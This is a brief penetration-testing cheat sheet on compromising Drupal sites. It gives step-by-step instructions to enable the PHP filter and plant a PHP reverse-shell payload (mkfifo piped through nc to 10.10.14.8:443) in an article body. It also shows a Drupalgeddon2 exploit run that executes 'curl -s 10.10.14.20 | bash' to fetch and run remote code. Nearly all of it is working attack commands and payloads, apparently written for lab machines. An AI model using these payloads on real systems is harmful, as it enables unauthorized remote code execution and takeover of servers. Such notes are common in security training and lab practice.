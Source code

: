 # Drupal

## Drupal

### Drupal RCE

First: Modules -&gt; Enable PHP filter 

Second: Add content -&gt; Article

Then listen in a port of your choosing :

```text
nc -lvnp 443
```

Afterward in the Drupal Article **Body** add this payload:

```bash
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f"); ?>
```

Next, in the **Text Format**, we select **PHP code.**

Finally, we click on the **Preview** button.

## Drupal Exploits

### Druppalgeddon

```text
ruby druppalgeddon2.rb 10.10.10.233
> curl -s 10.10.14.20 | bash
```

